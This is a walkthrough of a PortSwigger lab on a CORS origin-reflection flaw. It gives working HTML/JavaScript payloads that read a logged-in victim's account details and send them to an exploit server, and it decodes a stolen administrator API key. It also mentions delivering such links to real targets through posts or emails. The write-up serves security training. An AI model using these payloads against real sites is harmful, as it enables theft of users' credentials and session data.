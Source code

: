 ```yaml
--- 
title: "CORS Vulnerability With Basic Origin Reflection"
author: ""
date: 2024-02-27T12:45:37+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

#### Entities
Asset: https://0a6400570375230c80940876001500ca.web-security-academy.net

#### Enumeration
Access the lab, add the domain - without the protocol scheme - to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page and all embedded links via a script using the given credentials `wiener:peter`.
```shell
# inspect `/` route and embedded links via Burp's Proxy
URL="https://0a6400570375230c80940876001500ca.web-security-academy.net"
for path in $(curl -s $URL | grep -o 'href="[^"]*"' | cut -d'"' -f2); do
  echo "$(curl -skL -x 127.0.0.1:8080 -w "%{http_code} %{url_effective} -> %{redirect_url}" -o /dev/null $URL$path)"
done
```
View result on Burp Proxy's HTTP history, and with FoxyProxy Browser Extension configured for Burp turned on - not the Burp Proxy intercept - browse through the URLs that sticks out, hitting all possible resource you can find. The `/my-account` route which redirects to the `/login` when requested with valid credentials makes a POST request with an `Origin` header; `csrf`, `username` and `password` parameters and a GET request for `/accountDetails` after the login which shows sensitive credentials in the response with the `Access-Control-Allow-Credentials: true` set.  

![Enumeration](/images/cors1/01-enumerate-index-route.png "Enumeration")  

#### Exploration
Armed with this insight, send the GET `/accountDetails` to Burp Repeater. Verify a CORS flaw at `/accountDetails` by removing the `Referer` header and adding an `Origin` header switching the value to an arbitrary domain and observe the response reflected the `Access-Control-Allow-Origin` arbitrary domain value.   

![Exploration](/images/cors1/02-explore-abitrary-domain-as-origin.png "Exploration") 

#### Exploitation
Now exploit yourself while logged in with the below script.
```shell
<html lang="en">
<body>
  <script>
    function exploitCORS(appURL, exploitServer) {
      fetch(appURL, { credentials: 'include' })
      .then(response => response.text())
      .then(data => {
        fetch(exploitServer + data)
      })
      .catch(error => alert('Error fetching page: ' + error));
    }
    exploitCORS(
      'https://0a6400570375230c80940876001500ca.web-security-academy.net/accountDetails',
      'http://localhost:8000/?log='
    );
  </script>
</body>
</html>
```
Start a local server with `python3 -m http.server -b 127.0.0.1 8000 -d .` from within the directory where the above script is saved as index.html. Then run `google-chrome http://127.0.0.1:8000` and see your own credential displayed. You can also use to above script to exploit the administrator after changing the exploit server to portswigger's.

The condition for exploiting this flaw is that the target victim must be logged into their account, such that when they click the payload delivered to them, it gets the content of `/accountDetails` and logs that request to attacker's server. It is important to note that the PortSwigger lab simulates delivering the payload to the target victim and the response received at `/log` path of the exploit server. However in engagement the payload is usually set as a link in seemingly harmless articles or social media post or even emailed to them.  
```shell
<html lang="en">
<body>
  <script>
    var appServer = 'https://0a6400570375230c80940876001500ca.web-security-academy.net'
    var exploitServer = 'https://exploit-0a91002e0313235d80ad0765011300a1.exploit-server.net'
    var xhr = new XMLHttpRequest();
    xhr.open('GET', appServer + '/accountDetails', true);
    xhr.withCredentials = true;
    xhr.onreadystatechange = function() {
      if (xhr.readyState == XMLHttpRequest.DONE && xhr.status == 200) {
        fetch(exploitServer + '/log=' + xhr.responseText)
      }
    };
    xhr.send();
  </script>
</body>
</html>
```
Paste the above on the exploit server and deliver exploit to victim.  

![Exploitation](/images/cors1/03-exploit-abitrary-domain-as-origin.png "Exploitation") 

#### Exfiltration
Access the exploit server log and copy the value of `/log=` path. Now run it through a url decoder to extract the apikey.  

![Exfiltration](/images/cors1/04-exfiltrate-abitrary-domain-as-origin-spoil.png "Exfiltration") 
```shell
urlencode -d '%7B%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22a0IydfTG1C1PHw7fgY4eoY6FcVVKvRGm%22,%20%20%22sessions%22:%20[%20%20%20%20%222fbOjlD7InD7crx0XK3djXJhrjlfZiyA%22%20%20]%7D' | jq . | tee cors-vulnerability-with-basic-origin-reflection-spoil.json
```  

![Solution](/images/cors1/05-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack
- https://github.com/knoxknot/portswigger/tree/main/cors/01-cors-vulnerability-with-basic-origin-reflection